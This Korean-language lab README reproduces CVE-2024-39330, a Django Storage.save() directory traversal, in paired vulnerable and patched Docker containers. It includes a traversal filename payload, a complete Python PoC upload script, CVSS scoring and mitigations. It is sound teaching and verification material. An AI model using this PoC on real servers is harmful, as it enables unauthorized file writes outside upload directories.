




# CVE-2024-39330: Django `Storage.save()` Directory Traversal

## 1. 취약점 개요

`CVE-2024-39330`은 Django의 파일 저장 기능인
`django.core.files.storage.Storage.save()`에서 발생할 수 있는
디렉터리 경로 조작 취약점이다.

`Storage` 클래스를 상속한 사용자 정의 저장소가
`generate_filename()`을 재정의하면서 부모 클래스의 파일 경로 검증을
동일하게 구현하지 않은 경우, 공격자가 `../` 또는 절대경로를 포함한
파일명을 전달하여 의도한 업로드 디렉터리 밖에 파일을 저장할 수 있다.

Django가 기본으로 제공하는 `Storage` 하위 클래스는 이 취약점의 영향을
받지 않는다.

> 본 프로젝트는 교육 및 취약점 검증을 위한 로컬 Docker 환경이다.  
> 허가받지 않은 시스템에는 사용하지 않는다.

---

## 2. 취약점 정보

| 항목                 | 내용                                                    |
| -------------------- | ------------------------------------------------------- |
| CVE                  | CVE-2024-39330                                          |
| 대상 제품            | Django                                                  |
| 취약점 유형          | Directory Traversal / Path Traversal                    |
| 관련 기능            | `django.core.files.storage.Storage.save()`              |
| 취약 버전            | Django 4.2 이상 4.2.14 미만, Django 5.0 이상 5.0.7 미만 |
| 실습 취약 버전       | Django 4.2.13                                           |
| 실습 패치 버전       | Django 4.2.14                                           |
| 공식 심각도          | Django Security Policy 기준 Low                         |
| 실습 Risk Score      | 7.5 / 10.0                                              |
| 실습 Reproducibility | 100%                                                    |

---

## 3. 취약 조건

이 취약점은 모든 Django 애플리케이션에서 발생하는 것이 아니다.

다음 조건이 충족되어야 한다.

1. 취약한 Django 버전을 사용한다.
2. `Storage`를 상속한 사용자 정의 저장소를 사용한다.
3. 사용자 정의 저장소가 `generate_filename()`을 재정의한다.
4. 재정의한 메서드에서 부모 클래스의 경로 검증을 수행하지 않는다.
5. 공격자가 저장될 파일명 또는 파일 경로를 제어할 수 있다.
6. 애플리케이션이 처리한 파일명을 `Storage.save()`에 전달한다.

본 실습에서는 이러한 조건을 가진 파일 업로드 애플리케이션을
의도적으로 구성하였다.

---

## 4. 취약점 발생 원리

정상적인 파일 업로드에서는 파일이 지정된 업로드 폴더 안에 저장된다.

```text
입력 파일명:
uploads/normal.txt

저장 결과:
/app/media/uploads/normal.txt
```

공격자는 파일명에 상위 경로를 의미하는 `../`를 삽입한다.

```text
입력 파일명:
uploads/../outside.txt

경로 정규화 결과:
/app/media/outside.txt
```

이에 따라 파일이 원래 허용된 `/app/media/uploads/` 디렉터리를 벗어나
상위 디렉터리인 `/app/media/`에 저장된다.

취약 버전인 Django 4.2.13에서는 파일이 저장된 후 경로 검증 예외가
발생할 수 있으므로, 예외가 발생하더라도 파일이 이미 생성될 수 있다.

Django 4.2.14에서는 `Storage.save()` 내부에서 다음 시점에 파일명을
추가로 검사하도록 수정되었다.

```text
파일 저장 전
→ get_available_name() 처리 후
→ 내부 _save() 처리 후
```

따라서 조작된 경로는 실제 파일 저장 전에 차단된다.

---

## 5. 실습 환경 구조

Docker Compose는 다음 두 개의 컨테이너를 동시에 실행한다.

| 서비스       | Django 버전 | 호스트 포트 | 목적                |
| ------------ | ----------: | ----------: | ------------------- |
| `vulnerable` |      4.2.13 |        8000 | 취약점 재현         |
| `patched`    |      4.2.14 |        8001 | 패치 적용 결과 비교 |

```text
브라우저 또는 PoC
        │
        ├── localhost:8000
        │       └── Django 4.2.13 취약 환경
        │
        └── localhost:8001
                └── Django 4.2.14 패치 환경
```

---

## 6. 파일 구조

```text
CVE-2024-39330/
├── config/
│   ├── __init__.py
│   ├── settings.py
│   ├── urls.py
│   └── wsgi.py
├── vulnerable_app/
│   ├── __init__.py
│   ├── apps.py
│   ├── storage.py
│   ├── urls.py
│   └── views.py
├── templates/
│   └── upload.html
├── images/
│   ├── 01-compose-status.png
│   ├── 02-vulnerable-result.png
│   ├── 03-patched-result.png
│   └── 04-created-file.png
├── .dockerignore
├── .gitignore
├── docker-compose.yml
├── Dockerfile
├── manage.py
├── reproduce.py
├── requirements.txt
├── requirements-patched.txt
└── README.md
```

---

## 7. 환경 실행

### 요구사항

- Docker
- Docker Compose

호스트에 Django를 직접 설치할 필요는 없다.

### 컨테이너 빌드 및 실행

현재 README가 있는 디렉터리에서 다음 명령을 실행한다.

```bash
docker compose up -d --build
```

컨테이너 상태를 확인한다.

```bash
docker compose ps
```

두 컨테이너가 모두 `healthy` 상태이면 환경 구성이 완료된 것이다.

예상 포트는 다음과 같다.

```text
vulnerable   0.0.0.0:8000->8000/tcp
patched      0.0.0.0:8001->8000/tcp
```



---

## 8. 버전 확인

취약 환경의 Django 버전을 확인한다.

```bash
docker compose exec vulnerable python -m django --version
```

예상 결과:

```text
4.2.13
```

패치 환경의 Django 버전을 확인한다.

```bash
docker compose exec patched python -m django --version
```

예상 결과:

```text
4.2.14
```

---

## 9. 브라우저를 이용한 수동 재현

### 취약 환경

브라우저에서 다음 주소로 접속한다.

```text
http://localhost:8000
```

파일을 선택하고 저장할 파일 경로에 다음 값을 입력한다.

```text
uploads/../outside-vulnerable.txt
```

업로드 후 컨테이너 내부를 확인한다.

```bash
docker compose exec vulnerable sh -c \
  "find /app/media -maxdepth 2 -type f -print"
```

예상 결과:

```text
/app/media/outside-vulnerable.txt
```

파일이 원래 저장되어야 할 `/app/media/uploads/` 폴더를 벗어나
`/app/media/`에 생성된다.

### 패치 환경

브라우저에서 다음 주소로 접속한다.

```text
http://localhost:8001
```

동일한 방식으로 다음 파일 경로를 입력한다.

```text
uploads/../outside-patched.txt
```

파일 생성 여부를 확인한다.

```bash
docker compose exec patched sh -c \
  "find /app/media -maxdepth 2 -type f -print"
```

패치 버전에서는 `outside-patched.txt`가 생성되지 않는다.

---

## 10. 자동화 PoC 실행

PoC는 Python 표준 라이브러리만 사용한다.

호스트에 설치된 Python으로 실행할 수도 있지만, 재현성을 높이기 위해
Docker 컨테이너 내부에서 실행하는 방법을 권장한다.

### 취약 버전 공격

```bash
docker compose exec vulnerable \
  python reproduce.py http://127.0.0.1:8000
```

예상 결과:

```text
[*] Target: http://127.0.0.1:8000/
[*] Payload filename: uploads/../poc-xxxxxxxx.txt
[+] VULNERABLE: 업로드 디렉터리 밖에 파일이 생성되었습니다.
```



### 패치 버전 공격

```bash
docker compose exec patched \
  python reproduce.py http://127.0.0.1:8000
```

예상 결과:

```text
[*] Target: http://127.0.0.1:8000/
[*] Payload filename: uploads/../poc-xxxxxxxx.txt
[+] PATCHED: 저장 전에 경로 조작이 차단되어 파일이 생성되지 않았습니다.
```



### 취약 환경에 생성된 파일 확인

```bash
docker compose exec vulnerable sh -c \
  "find /app/media -maxdepth 2 -type f -print"
```

취약점이 재현되면 `poc-xxxxxxxx.txt` 파일이 `uploads` 폴더 밖인
`/app/media/`에 생성된다.



---

## 11. PoC 코드

전체 PoC 코드는 [`reproduce.py`](./reproduce.py)에 포함되어 있다.

```python
from __future__ import annotations

import argparse
import html
import http.cookiejar
import re
import sys
import uuid
from urllib.error import HTTPError, URLError
from urllib.request import HTTPCookieProcessor, Request, build_opener


def make_multipart(
    csrf_token: str,
    target_filename: str,
    file_content: bytes,
) -> tuple[str, bytes]:
    boundary = f"----cve39330-{uuid.uuid4().hex}"

    text_fields = [
        ("csrfmiddlewaretoken", csrf_token),
        ("filename", target_filename),
    ]

    body = bytearray()

    for field_name, field_value in text_fields:
        body.extend(f"--{boundary}\r\n".encode("utf-8"))
        body.extend(
            (
                f'Content-Disposition: form-data; name="{field_name}"\r\n'
                "\r\n"
                f"{field_value}\r\n"
            ).encode("utf-8")
        )

    body.extend(f"--{boundary}\r\n".encode("utf-8"))
    body.extend(
        (
            'Content-Disposition: form-data; '
            'name="file"; filename="exploit.txt"\r\n'
            "Content-Type: text/plain\r\n"
            "\r\n"
        ).encode("utf-8")
    )

    body.extend(file_content)
    body.extend(f"\r\n--{boundary}--\r\n".encode("utf-8"))

    return boundary, bytes(body)


def extract_csrf_token(page: str) -> str | None:
    match = re.search(
        r'name=["\']csrfmiddlewaretoken["\'][^>]*'
        r'value=["\']([^"\']+)["\']',
        page,
        flags=re.IGNORECASE,
    )

    if match is None:
        return None

    return html.unescape(match.group(1))


def classify_result(result: str) -> str | None:
    match = re.search(
        r"파일 생성 여부:</strong>\s*(True|False)",
        result,
        flags=re.IGNORECASE,
    )

    if match is None:
        return None

    if match.group(1).lower() == "true":
        return "vulnerable"

    return "patched"


def run_poc(target_url: str) -> int:
    target_url = target_url.rstrip("/") + "/"

    cookie_jar = http.cookiejar.CookieJar()
    opener = build_opener(
        HTTPCookieProcessor(cookie_jar)
    )

    random_name = uuid.uuid4().hex[:8]
    traversal_name = f"uploads/../poc-{random_name}.txt"

    print(f"[*] Target: {target_url}")
    print(f"[*] Payload filename: {traversal_name}")

    try:
        with opener.open(target_url, timeout=10) as response:
            page = response.read().decode(
                "utf-8",
                errors="replace",
            )

        csrf_token = extract_csrf_token(page)

        if csrf_token is None:
            print("[-] CSRF 토큰을 찾지 못했습니다.")
            return 1

        boundary, body = make_multipart(
            csrf_token=csrf_token,
            target_filename=traversal_name,
            file_content=b"CVE-2024-39330 PoC success\n",
        )

        request = Request(
            target_url,
            data=body,
            method="POST",
            headers={
                "Content-Type": (
                    f"multipart/form-data; boundary={boundary}"
                ),
                "Referer": target_url,
                "User-Agent": "CVE-2024-39330-PoC",
            },
        )

        with opener.open(request, timeout=10) as response:
            result = response.read().decode(
                "utf-8",
                errors="replace",
            )

        classification = classify_result(result)

        if classification == "vulnerable":
            print(
                "[+] VULNERABLE: 업로드 디렉터리 밖에 "
                "파일이 생성되었습니다."
            )
            return 0

        if classification == "patched":
            print(
                "[+] PATCHED: 저장 전에 경로 조작이 차단되어 "
                "파일이 생성되지 않았습니다."
            )
            return 0

        with open(
            "poc-response.html",
            "w",
            encoding="utf-8",
        ) as output:
            output.write(result)

        print(
            "[-] 결과를 명확하게 판단하지 못했습니다. "
            "응답을 poc-response.html에 저장했습니다."
        )
        return 1

    except HTTPError as exc:
        print(f"[-] HTTP 오류: {exc.code} {exc.reason}")
        return 1

    except URLError as exc:
        print(f"[-] 연결 오류: {exc.reason}")
        return 1

    except TimeoutError:
        print("[-] 연결 시간이 초과되었습니다.")
        return 1

    except Exception as exc:
        print(f"[-] 예상하지 못한 오류: {exc}")
        return 1


def main() -> None:
    parser = argparse.ArgumentParser(
        description="CVE-2024-39330 directory traversal PoC"
    )

    parser.add_argument(
        "target",
        help="대상 URL (예: http://localhost:8000)",
    )

    args = parser.parse_args()

    sys.exit(run_poc(args.target))


if __name__ == "__main__":
    main()
```

---

## 12. 실행 결과 비교

| 구분                     | Django 4.2.13 | Django 4.2.14 |
| ------------------------ | ------------- | ------------- |
| 조작 파일명 처리         | 허용됨        | 차단됨        |
| `_save()` 호출           | 실행됨        | 실행되지 않음 |
| 업로드 폴더 밖 파일 생성 | 성공          | 실패          |
| 결과                     | Vulnerable    | Patched       |

```text
Django 4.2.13
uploads/../poc-xxxxxxxx.txt
→ /app/media/poc-xxxxxxxx.txt 생성

Django 4.2.14
uploads/../poc-xxxxxxxx.txt
→ SuspiciousFileOperation 발생
→ 파일 생성 안 됨
```

---

## 13. Risk Score

### 실습 환경 기준 CVSS 3.1 자체 평가

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N
```

**Risk Score: 7.5 / 10.0**

| 지표 | 값        | 판단 근거                                      |
| ---- | --------- | ---------------------------------------------- |
| AV   | Network   | HTTP 파일 업로드 요청으로 접근                 |
| AC   | Low       | 특수한 경쟁 조건이나 반복 시도가 필요하지 않음 |
| PR   | None      | 실습 환경에서는 인증 없이 업로드 가능          |
| UI   | None      | 피해자의 추가 동작이 필요하지 않음             |
| S    | Unchanged | 동일한 Django 애플리케이션 권한 범위에서 동작  |
| C    | None      | 본 PoC는 정보 읽기를 수행하지 않음             |
| I    | High      | 허용된 업로드 경로 밖에 파일을 생성할 수 있음  |
| A    | None      | 본 PoC는 서비스 중단을 수행하지 않음           |

이 점수는 본 Docker 실습 환경의 노출 조건과 영향도를 기준으로
산정한 값이다.

실제 서비스에서는 인증 여부, 업로드 권한, 파일 시스템 권한,
저장 가능한 경로에 따라 위험도가 달라질 수 있다.

Django 프로젝트는 취약 조건이 제한적이며 기본 제공 `Storage`
클래스가 영향을 받지 않는다는 점을 반영하여 공식 보안 정책상
Low 심각도로 분류하였다.

---

## 14. 대응 방안

### 1. Django 업그레이드

다음 이상의 패치 버전으로 업그레이드한다.

```text
Django 4.2.14 이상
Django 5.0.7 이상
```

예시:

```bash
pip install --upgrade "Django>=4.2.14,<5.0"
```

### 2. 사용자 정의 Storage 검토

`Storage`를 상속한 클래스에서 다음 메서드를 재정의했는지 확인한다.

```text
generate_filename()
get_available_name()
_save()
```

재정의한 메서드는 Django 부모 클래스가 제공하는 경로 검증을
우회하지 않아야 한다.

### 3. 사용자 입력을 파일 경로로 직접 사용하지 않기

사용자가 입력한 문자열을 저장 경로 전체로 사용하지 않고,
파일 이름만 추출한 뒤 서버가 안전한 저장 위치를 결정해야 한다.

### 4. 절대경로와 상위 경로 차단

다음과 같은 입력을 차단한다.

```text
../
..\
/etc/example
C:\example
```

### 5. 최소 권한 적용

애플리케이션 프로세스에는 필요한 업로드 디렉터리에만 쓰기 권한을
부여한다.

중요한 설정 파일, 실행 파일 및 애플리케이션 소스 디렉터리에는
쓰기 권한을 부여하지 않는다.

---

## 15. 깨끗한 환경에서 재검증

기존 컨테이너와 이미지를 제거한다.

```bash
docker compose down -v --remove-orphans
docker compose build --no-cache
docker compose up -d
```

컨테이너 상태를 확인한다.

```bash
docker compose ps
```

취약 버전과 패치 버전에 PoC를 다시 실행한다.

```bash
docker compose exec vulnerable \
  python reproduce.py http://127.0.0.1:8000

docker compose exec patched \
  python reproduce.py http://127.0.0.1:8000
```

예상 결과:

```text
vulnerable → VULNERABLE
patched    → PATCHED
```

---

## 16. 환경 종료

```bash
docker compose down -v --remove-orphans
```

로컬 빌드 이미지까지 제거하려면 다음 명령을 사용한다.

```bash
docker compose down -v --remove-orphans --rmi local
```

---

## 17. 참고 자료

- Django Security Releases  
  `https://www.djangoproject.com/weblog/2024/jul/09/security-releases/`

- Django 4.2.14 Release Notes  
  `https://docs.djangoproject.com/en/4.2/releases/4.2.14/`

- Django CVE-2024-39330 Patch  
  `https://github.com/django/django/commit/2b00edc0151a660d1eb86da4059904a0fc4e095e`

- GitHub Security Advisory  
  `https://github.com/advisories/GHSA-9jmf-237g-qf46`

- NVD CVE-2024-39330  
  `https://nvd.nist.gov/vuln/detail/CVE-2024-39330`
